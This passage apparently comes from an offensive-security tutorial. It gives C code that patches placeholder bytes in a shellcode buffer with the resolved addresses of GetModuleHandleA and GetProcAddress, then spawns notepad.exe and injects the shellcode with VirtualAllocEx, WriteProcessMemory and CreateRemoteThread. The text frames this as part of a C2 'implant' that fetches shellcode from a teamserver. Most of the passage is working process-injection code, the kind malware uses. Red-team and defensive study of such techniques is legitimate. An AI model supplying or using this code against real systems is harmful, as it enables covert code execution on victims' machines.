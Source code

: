 ```c
    //Find the placeholders to overwrite in our buffer
    for (int i = 0; i < shellcodeSize; i++) {
        if (shellcodeBuffer[i] == 0xb8) {
            if (shellcodeBuffer[i + 1] == 0xaa && shellcodeBuffer[i+2] == 0xaa) {
                GetModuleHandlePtr = &shellcodeBuffer[i + 1];
            }
            if (shellcodeBuffer[i + 1] == 0xbb && shellcodeBuffer[i + 2] == 0xbb) {
                GetProcAddressPtr = &shellcodeBuffer[i + 1];
            }
        }
    }

    if (GetModuleHandlePtr == NULL) {
        printf("Could not find GetModuleHandle in the buffer\n");
        return;
    }
    if (GetProcAddressPtr == NULL) {
        printf("Could not find GetProcAddress in the buffer\n");
        return;
    }

    printf("pGetModuleHandleA: %p\n", pGetModuleHandleA);
    printf("pGetProcAddress: %p\n", pGetProcAddress);

    printf("GetModuleHandlePtr: %p\n", GetModuleHandlePtr);
    printf("GetProcAddressPtr: %p\n", GetProcAddressPtr);

    //Overwrite our placeholders
    memcpy(GetModuleHandlePtr, &pGetModuleHandleA, sizeof(pGetModuleHandleA));
    memcpy(GetProcAddressPtr, &pGetProcAddress, sizeof(pGetProcAddress));
}
```

The above code will use GetModuleHandleA and GetProcAddress to resolve their own addresses. I use CreateFile + ReadFile to get the contents of the shellcode, but if you’re implementing this into an implant then presumably you’ll get the shellcode from the teamserver. Then we’ll walk through the shellcode buffer and find where our two placeholder values are. Again, I used a series of A’s and B’s as placeholders, but you could use any series of unique values that you can search for. Then we’ll overwrite the placeholders in our buffer with the addresses of our functions.

Then, you can inject this shellcode as you normally would. Below is a snippet of code to spawn a process and inject our shellcode. 

```c
//Spawn new process and inject
    STARTUPINFO si;
    PROCESS_INFORMATION pi;
    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    ZeroMemory(&pi, sizeof(pi));
    CreateProcessA(NULL, "C:\\Windows\\System32\\notepad.exe", NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi); 
    HANDLE remoteThread;
    PVOID remoteBuffer;
    processHandle = pi.hProcess;
    remoteBuffer = VirtualAllocEx(pi.hProcess, NULL, shellcodeSize, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(pi.hProcess, remoteBuffer, shellcodeBuffer, shellcodeSize, NULL);
    remoteThread = CreateRemoteThread(pi.hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
    
```
